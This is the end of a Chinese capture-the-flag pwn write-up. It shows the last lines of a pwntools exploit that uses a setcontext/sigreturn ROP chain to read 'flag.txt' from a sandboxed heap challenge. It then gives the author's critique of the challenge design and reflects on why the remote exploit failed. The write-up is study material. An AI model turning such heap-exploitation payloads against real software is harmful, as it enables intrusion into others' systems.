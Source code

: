 ```
        fake_frame_addr + 0x200,
        syscall_addr
    ]
    payload = str(frame).ljust(0xF8, '\x00') + '\x00' * 0x10 + 'flag.txt' + '\x00' * 0x8 + '\x00' * 0x8 + flat(rop_data)
    edit(11, payload.ljust(0x200, '\x00'))
    edit(8, p64(setcontext_addr) + '\x00' * 0x100)
    # gdb.attach(sh, "b free")
    delete(11)
    sh.interactive()


if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh, elf=get_file(), libc=get_libc())
    sh.close()
    log.success('The flag is ' + re.search(r'flag`{`.+`}`', flag).group())
```



## 总结

这道题的主要内容和 2021 强网杯 babypwn 那题一模一样，包括沙箱限制、堆块申请限制、利用方式、libc 文件都一样，就是原题套了个验证函数。

但是这道题我认为还有一些地方可以改善的

**1.提供 libc 文件**

虽然出题人的本意就是不提供 libc 文件，并且这题可以根据无 double free 报错和存在 tcache 大概可以猜测到是 glibc2.27 1.4 之前的版本，但是我还是建议堆题都要提供 libc 文件。我个人认为，任何堆题（除非为了考察 ret2_dlresolve）不给出 libc 文件就是耍流氓，是在浪费做题人的时间，针对于不同版本的 glibc 来针对性的写 exp 这都是基本操作，不给 libc 让程序中不确定因素过多（尤其是堆题）。

**2.提供 flag 文件名**

开了沙箱之后这道题注定是需要用像 orw 这样方法来拿到 flag 文件的，但是这道题却没有提供 flag 文件名，虽然这也是比赛中常见的情况，一般都是猜测名称为 flag 或 flag.txt，但是我认为如果在题目描述中告知 flag 文件名会更方便做题和复现，何况这道题还没有提供 libc。不过，这道题由于只禁用了 execve，其实还可以考察 sys_getdents 这样的探测路径的方法，并且把 flag 的文件名改的复杂一些。

**3.增加 PWN 方向的难度**

就这道题而言，是由强网杯那题改写的，那应该在原题上有所提升。我认为应该思考如何在原题的基础上加强难度和利用限制。这样增加一个验证函数和混淆代码可以考察做题人的 RE 能力，但同时不应该偏离 PWN 这个题目分类，也应当增加的是 PWN 漏洞利用的难度，以这道题的限制条件而言，完全可以把 glibc 换成 2.31 或者 2.32 这样的高版本，来考察做题人对新版本的检测和保护的绕过方法。



## 反思

虽然我在比赛结束前一个多小时就已经在本地打通，但是直到比赛结束都没有拿到 flag。在最后一个小时内我对各个版本的 libc 进行替换测试，并且逐一测试 flag 文件名（flag / flag.txt），但最后还是因为 exp 写法不够完美导致程序 io 混乱，使得当我的 libc 版本和远程已经一致的情况下，远程仍然没有打通。以后在比赛过程中应当注意时刻测试 libc 版本和注意延迟问题，当 exp 编写完成后，再回头来调整绕过手法就会浪费大量的时间。

